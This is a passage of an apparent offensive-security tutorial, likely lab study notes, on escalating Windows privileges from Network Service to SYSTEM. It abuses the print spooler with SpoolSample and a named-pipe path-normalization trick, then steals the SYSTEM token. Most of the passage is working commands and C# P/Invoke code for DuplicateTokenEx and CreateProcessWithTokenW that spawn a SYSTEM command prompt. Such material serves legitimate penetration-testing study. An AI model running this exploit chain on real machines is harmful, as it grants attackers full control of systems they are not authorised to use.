




## Exploiting The Privilege
Now that we have our c coded application ready, we can start by getting a session as "NT AUTHORITY\Network Service" with the following command:

```cmd
psexec64 -i -u "NT AUTHORITY\Network Service" cmd.exe
```



Next, we execute it and supply a random pipe name.
```cmd
PrintSpooferNet.exe \\.\pipe\test
```

To simulate a connection, we can open an elevated command prompt and write to the pipe
```cmd
echo hello > \\localhost\pipe\test
```



Our code has impersonated a token and resolved the associated SID.

## Exploiting Spooler
It's now time to test our application leveraging the print spooler service.
Communication to the spooler service is done through _Print System Remote Protocol_ (MS-RPRN).
The MS-RPRN works through named pipes and the pipe name used by the print spooler service is 
```cmd
\pipe\spoolss".
```

The potential for abuse comes from the [_RpcOpenPrinter_](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/989357e2-446e-4872-bb38-1dce21e1313f) and [_RpcRemoteFindFirstPrinterChangeNotification_](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83) functions.
_RpcOpenPrinter_ allows us to retrieve a handle for the printer server, which is used as an argument to the _RpcRemoteFindFirstPrinterChangeNotification_.

The change notification requires the print spooler to access the print client. If we ensure that the print client is our named pipe, it will obtain a SYSTEM token that we can impersonate.
We will be using [SpoolSample](https://github.com/leechristensen/SpoolSample) C# implementation to exploit this.
We can also use the powershell script [SpoolScanner](https://github.com/vletoux/SpoolerScanner) for the same purpose.

For the exploit, when we use SpoolSample, we must specify the name of the server to connect to (the victim) and the name of the server we control (the attacker).
Because of local network, we have to use a workaround.

The print spooler service (running as SYSTEM on the victim) needs to contact the simulated print client (through our pipe) but since they are on the same host, they in effect require the same default pipe name 
```cmd
(pipe\spoolss)
```

Before attempting to access the client pipe, the print spooler service validates the pipe path, making sure it matches the default name "pipe\spoolss". 
Our arbitrary pipe "test" fails this validation and, consequently, the print spooler service doesn't even attempt to connect to the client.

To workaround this, we will be exploiting [path normalization](https://docs.microsoft.com/en-us/dotnet/standard/io/file-path-formats)

Providing the name appsrv01/test for our pipe changes to
```cmd
\\.\appsrv01\test\pipe\spoolss
```
as seen in process explorer, in an attempt to access the named pipe.
The request fails because we don't have a pipe of such name

We create a pipe server to listen for connections as follows:
```cmd
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
```

and run the SpoolSample application:
```cmd
SpoolSample.exe appsrv01 appsrv01/pipe/test
```



We see that the SID belongs to [SYSTEM account](https://docs.microsoft.com/en-us/windows/win32/secauthz/well-known-sids)

This means we do not have a way of authenticating the SYSTEM account to our named pipe, thus we're allowed to impersonate it.
We will now begin to exploit this impersonation token by launching a command prompt as SYSTEM.

## Launching CMD
We do this by using the Win32 [_CreateProcessWithTokenW_](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) API
For the API, the token must be a primary token, so we'll first use [_DuplicateTokenEx_](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex) to convert the impersonation token to a primary token.

The parameters for _DuplicateTokenEx_ are:
1. hExistingToken - Token retrieved with _OpenThreadToken_
2. dwDesiredAccess - Desired access (Full access - 0xF01FF)
3. lpTokenAttributes - Security descriptors(default value NULL)
4. ImpersonateLevel - access type of current token(SecurityImpersonation value - 2)
5. TokenType - Type of token (set to primary with "1")
6. phNewToken - pointer to be populated with the new token handle

Importing the API:
```C#
[DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);
```

Invoking the API:
```C#
IntPtr hSystemToken = IntPtr.Zero;
DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);
```

Now that our primary token has been created, we can finally use _CreateProcessWithTokenW_ to launch a command prompt as Administrator.

The API requires following parameters:
1. hToken - Tokenhandle(our new duplicate primary token)
2. dwLogonFlags - logon options(set to default with "0")
3. lpApplicationName - Location for application(set to null)
4. lpCommandLine - command line to be executed(set to "cmd.exe")
5. dwCreationFlags - Creation flags (set to "0" for default)
6. lpEnvironment - set to default with NULL
7. lpCurrentDirectory - set to default with NULL
8. lpStartupInfo - populated at execution(structured to be declared)
9. lpProcessInformation - populated at execution(structure to be declared)

Creating the structures:
```C#
[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
    public IntPtr hProcess;
    public IntPtr hThread;
    public int dwProcessId;
    public int dwThreadId;
}

[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
public struct STARTUPINFO
{
    public Int32 cb;
    public string lpReserved;
    public string lpDesktop;
    public string lpTitle;
    public Int32 dwX;
    public Int32 dwY;
    public Int32 dwXSize;
    public Int32 dwYSize;
    public Int32 dwXCountChars;
    public Int32 dwYCountChars;
    public Int32 dwFillAttribute;
    public Int32 dwFlags;
    public Int16 wShowWindow;
    public Int16 cbReserved2;
    public IntPtr lpReserved2;
    public IntPtr hStdInput;
    public IntPtr hStdOutput;
    public IntPtr hStdError;
}
```

Importing the API:
```C#
[DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags, string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
```

Invoking the function:
```C#
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
STARTUPINFO si = new STARTUPINFO();
si.cb = Marshal.SizeOf(si);
CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0, IntPtr.Zero, null, ref si, out pi);
```

With the APIs in place, we can now compile our executable, execute it to listen for pipes, and connect to it using spoolsample:
we get a new cmd prompt as SYSTEM:

